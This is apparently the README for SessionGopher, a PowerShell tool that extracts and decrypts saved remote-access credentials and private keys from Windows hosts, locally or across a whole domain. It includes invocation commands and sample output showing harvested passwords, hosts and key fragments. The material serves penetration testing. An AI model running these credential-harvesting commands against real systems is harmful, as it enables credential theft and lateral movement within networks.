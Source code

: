 # SessionGopher
### Quietly digging up saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP

SessionGopher is a PowerShell tool that finds and decrypts saved session information for remote access tools. It has WMI functionality built in so it can be run remotely.
Its best use case is to identify systems that may connect to Unix systems, jump boxes, or point-of-sale terminals.

SessionGopher works by querying the `HKEY_USERS` hive for all users who have logged onto a domain-joined box at some point. It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, and RDP saved session information. It automatically extracts and decrypts WinSCP, FileZilla, and SuperPuTTY saved passwords.
When run in Thorough mode, it also searches all drives for PuTTY private key files (.ppk) and extracts all relevant private key information, including the key itself, as well as for Remote Desktop (.rdp) and RSA (.sdtid) files.

## Usage
**-Thorough**: searches all drives for PuTTY private key (.ppk), Remote Desktop Connecton (.rdp), and RSA (.sdtid) files. 

**-o**: outputs the data to a folder of .csv files

**-iL**: provide a file with a list of hosts to run SessionGopher against, each host separated by a newline. Provide the path to the file after `-iL`.

**-AllDomain**: SessionGopher will query Active Directory for all domain-joined systems and run against all of them.

**-Target**: a specific host you want to target. Provide the target host after `-Target`.

### To run locally
```
. .\SessionGopher.ps1
Invoke-SessionGopher -Thorough
```

### To run remotely (-iL, -AllDomain, -Target)
To run remotely, you can either provide a privileged account's credentials for the remote system using the `-u` and `-p` flags. If you omit the `-u` and `-p` flags, 
SessionGopher will run under the security context of the account from which you run the script (e.g. if you are already logged in as DA account, or logged in as an account that
is local admin for the target system, or doing a _runas_ with either of the two, you won't need to supply credentials).

```
. .\SessionGopher.ps1
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```
or
```
. .\SessionGopher.ps1
Invoke-SessionGopher -iL computerlist.txt -u domain.com\adm-arvanaghi -p s3cr3tP@ss -o
```
or 
```
. .\SessionGopher.ps1
Invoke-SessionGopher -Target brandonArvanaghi_win7 -Thorough
```

Any of these commands can be coupled with `-Thorough`, but note that it takes significantly longer as it queries the entire remote filesystem. It is not recommended you run in `-Thorough` mode when querying
more than a small set of systems at a time. 

Running remotely by adding `-o` (print to CSV) works nicely, as SessionGopher will accumulate all sessions it finds and tell you exactly where it found that saved session. 

### To write to CSV (whether remote or local)
To have SessionGopher create a folder to neatly contain .csvs of the extracted sessions:
```
. .\SessionGopher.ps1
Invoke-SessionGopher -AllDomain -o
```
... that's it. 

Accessing the saved session information for every user in `HKEY_USERS` requires local admin privileges. Without local admin privileges, you will still receive saved session
information for that user.

### Sample output (-Thorough):

```
[+] Digging on Win7-Arvanaghi ...
 WinSCP Sessions

Session  : admin-anthony@198.273.212.334
Hostname : 198.273.212.334
Username : admin-anthony
Password : Super*p@ssw0rd

Session  : Freddy@204.332.455.213
Hostname : 204.332.455.213
Username : Freddy
Password : angelico1892

FileZilla Sessions

Name     : BarrySite
Password : imr34llytheFl@sh
Host     : 10.8.30.21
User     : BarryAllen
Protocol : Use FTP over TLS if available
Account  : BarryAllenAccount
Port     : 22

PuTTY Sessions

Session  : PointOfSaleTerminal
Hostname : 10.8.0.10

PuTTY Private Key Files (.ppk)

Path                   : C:\Users\Brandon Arvanaghi\Documents\mykey.ppk
Protocol               : ssh-rsa
Comment                : rsa-key-20170116
Private Key Encryption : none
Private Key            : {AAABAEazxtDz6E9mDeONOmz07sG/n1eS1pjKI8fOCuuLnQC58LeCTlysOmZ1/iC4, g4HyRpmdKJGhIxj66/RQ135hVesyk02StleepK4+Tnvz3zmdr4Do5W99qKkrWI3D, T9GOxOIoR9Zc6j57D+fdesJq4ItEIxcQZlXC1F9KZcbXjSJ3iBmCsbG/aRJmMJNx, 
                         nCMaZkySr4R4Z/E+l1JOzXaHh5WQ2P0K4YM1/6XG6C4VzDjvXwcY67MYsobTeCR2...}
Private MAC            : b7e47819fee39a95eb374a97f939c3c868f880de


Microsoft Remote Desktop (RDP) Sessions

Hostname : us.greatsite.com
Username : Domain\tester 

Microsoft Remote Desktop .rdp Files

Path                    : C:\Users\Brandon Arvanaghi\Desktop\config\PenTestLab-Win.RDP
Hostname                : dc01.corp.hackerplaypen.com
Gateway                 : rds01.corp.hackerplaypen.com
Prompts for Credentials : No
Administrative Session  : Does not connect to admin session on remote host

```

---

Written by Brandon Arvanaghi

[arvanaghi.com](https://arvanaghi.com)

[@arvanaghi](https://twitter.com/arvanaghi)

